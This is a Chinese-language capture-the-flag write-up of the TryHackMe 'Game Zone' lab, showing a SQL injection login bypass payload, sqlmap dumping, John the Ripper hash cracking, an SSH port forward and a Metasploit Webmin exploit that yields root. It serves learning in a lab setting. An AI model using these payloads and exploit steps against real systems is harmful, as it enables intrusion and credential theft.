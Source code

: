```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme Game Zone sqlmap与ssh反向隧道/"}
---
```



需要用到sqlmap或者手注、破解用户哈希密码、使用 SSH 隧道显示隐藏服务以及使用 metasploit 有效负载获得 root 权限。

有个登录界面 用万能密码能登进去
```
' or 1=1;--  
```

是个搜索界面
![image.png](https://s2.loli.net/2025/04/19/7lIphPqOLicfZKF.png)

输了一个'之后会发现有个报错 我们可以考虑一下sql手注 或者sqlmap注入

## sql手注

先来试试手注 
```
构造and 1=1以及and 1=2
用于数字型注入点，

构造and '1' ='1'以及and '1' ='2'
用于字符型，

有报错就是存在
```



## sqlmap
bp抓包 将post复制下来进行爆破 --dump 能爆出账户和密码

![image.png](https://s2.loli.net/2025/04/19/kre4XsTnAPhqFyC.png)

```
sqlmap -r sql.txt -D db --tables
```

![image.png](https://s2.loli.net/2025/04/19/n2XRSuMpwTP1dsz.png)


john破解密码

```
john john.txt --format=RAW-SHA256 --wordlist=rockyou.txt 
```

![image.png](https://s2.loli.net/2025/04/19/Xnz5tl7LDPA8KVd.png)

## ssh反向隧道

反向 SSH 端口转发指定将远程服务器主机上的给定端口转发到本地端的给定主机和端口。


```
ss -tunlp
```
![image.png](https://s2.loli.net/2025/04/19/E2imDBtV6T1p4Xw.png)

有个10000端口 用 SSH 隧道，我们可以将端口公开给本地

```
ssh -L 10000:localhost:10000 agent47@10.10.120.156
```

![image.png](https://s2.loli.net/2025/04/19/bn9AYgRPjDEBNQy.png)

这个时候我们去访问localhost:10000就会有个页面

## msf攻击

```
search webmin 1.580
use 0
set USERNAME agent47
set PASSWORD videogamer124
set lhost vpn分配的ip
set ssl false
```

运行之后会生成会话 就是root权限